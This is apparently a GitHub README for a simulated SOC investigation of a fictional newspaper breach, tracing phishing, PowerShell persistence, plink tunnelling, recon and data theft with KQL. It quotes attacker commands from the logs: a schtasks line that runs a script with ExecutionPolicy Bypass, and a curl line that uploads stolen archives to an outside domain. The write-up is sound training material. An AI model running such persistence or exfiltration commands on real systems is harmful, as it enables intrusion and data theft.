 # 🛡️ Valdorian Times Cybersecurity Breach: A Real-World SOC Investigation 🧠

🎥 **[Watch Full Investigation Video (kql.mp4)](https://drive.google.com/file/d/1b-IJ2acGuVvpFf12_vAxgXWQosKQmrU3/view?usp=sharing)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

---

## 🚀 Overview

🔍 **Attack Type**: Spear-phishing → Credential Abuse → Scheduled Tasks → Document Forgery → Data Exfiltration  
💻 **Tech Used**: Microsoft Sentinel, KQL, PowerShell, Passive DNS  
🎯 **Goal**: Find out how attackers used fake editorial documents and stolen intern accounts to inject misinformation and steal data.

---

## 📊 Phase 1: Initial Recon & Activity

### 🔍 Lois Lane
- IP Address: `10.10.0.22`
- Visited: **62 unique websites**

### 🌐 Passive DNS Search
- Domains containing `"hire"`: **6**
- `jobhire.org` resolved to: `191.7.248.112`

### 🧑 Mary Activity
- Unique Websites: **58**
- Authentication Attempts: **70**

---

## 📩 Phase 2: Suspicious Email to Clark Kent

- Email received from: **ronnie_mclovin@valdoriantimes.news**
- Subject: `URGENT: Final OpEd Draft Edits`
- Attachment: `OpEdFinal_to_print.docx`
- Sent on: `2024-01-31T11:11:12.000Z`
- Clark received **21 total emails**

Ronnie claims she never sent this email. Compromise suspected.

---

## 🕵️‍♀️ Phase 3: Sonia Gose - The Senior Editor's Lead

- IP: `10.10.0.3`
- Host: `UL0M-MACHINE`
- Received phishing email from: `newspaper_jobs@gmail.com`
- Timestamp: `2024-01-05T09:42:05.000Z`
- Link: `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`

### 📥 File Details
- Downloaded: `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
- SHA256: `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`

### 🪲 Malware Drop
- Dropped file: `hacktivist_manifesto.ps1`
- Created: `2024-01-05T10:24:32.000Z`

### 🛠 Scheduled Task
```bash
schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
```
### 🧪 Commands Executed by the Attacker

After establishing a tunnel using `plink.exe`, the attacker executed the following commands on the compromised machine to perform network discovery and system enumeration:

```bash
whoami           # Identify the currently logged-in user
ipconfig         # Display IP configuration details
arp -a           # View the ARP cache to identify nearby network devices
tasklist /svc    # List running tasks along with associated services
net view         # Discover shared resources on the local network
```
---

## 💻 Phase 4: Ronnie McLovin - Intern Breach

- **IP**: `10.10.0.19`  
- **Host**: `A37A-DESKTOP`  
- **Received Email From**: `valdorias_best_recruiter@gmail.com`  
- **Timestamp**: `2024-01-10T08:48:16.000Z`  
- **Link Domain**: `promotionrecruit.org`

### 📥 File Details

- **Downloaded File**: `Editorial_J0b_Openings_2024.docx`
- **Dropped Payload**: `hacktivist_manifesto.ps1`  
- **Drop Time**: `2024-01-10T08:55:51.000Z`

### 🧠 Attacker Action

- **plink.exe Executed**  
  - **C2 IP**: `168.57.191.100`  
  - **Credentials Used**:  
    - Username: `$had0w`  
    - Password: `thruthW!llS3tUfree`

- **Scheduled Task Created**  
  - **Time**: `2024-01-10T10:26:32.000Z`  

- **Recon Commands Executed**:
```bash
whoami
ipconfig
arp -a
tasklist /svc
net view
```
---
## 📄 Phase 5: fakestory.docx → OpEdFinal_to_print.docx

- **Domain**: `hire-recruit.org`  
- **Downloaded File**: `fakestory.docx`  
- **SHA256**: `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`  
- **Created On**: `2024-01-31T09:47:51.000Z`

### ➡️ Renamed & Moved
```plaintext
C:\Users\romclovin\Documents\OpEdFinal_to_print.docx
```
Timestamp: 2024-01-31T10:26:20.000Z

📧 Sent via Email to Clark Kent: 2024-01-31T11:11:12.000Z
⏱️ Elapsed Time: 44 minutes

---

## 📦 Phase 6: Data Theft & Exfiltration

### 🗃️ Files Created by the Attacker
- `DankMemes.7z`
- `MyStolenDataFromDocuments.7z`
- `MyStolenDataFromDesktop.7z`

🔐 **Password for All Archives**: `thruthW!llS3tUfree`

### 📤 Exfiltration Command
```bash
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php

```
🌐 Destination Domain: hirejob.com
---
## 📂 Repository Structure

```bash
Valdorian-Incident-Investigation/
├── README.md                      # 📝 Project summary and case details
├── kql.mp4                        # 🎥 Full investigation video
├── data/
│   ├── IOC_list.txt               # 📄 IPs, hashes, domains
│   └── investigation_logs.txt     # 🕵️ Full attack timeline & investigation steps
├── assets/
│   └── phishing_flowchart.png     # 🧭 (Optional) Visual representation of phishing chain
```
---
## 🧠 Learnings

```bash
 *KQL in action*: Real queries across web, DNS, authentication & process logs  
 *Tracking PowerShell scripts and scheduled tasks*
 *Detecting spear-phishing and content spoofing*  
 *Building incident timelines from metadata*
 *Reconstructing the attack chain from internal telemetry
 ```
---------------------------------------------------------------------------------------------------------------
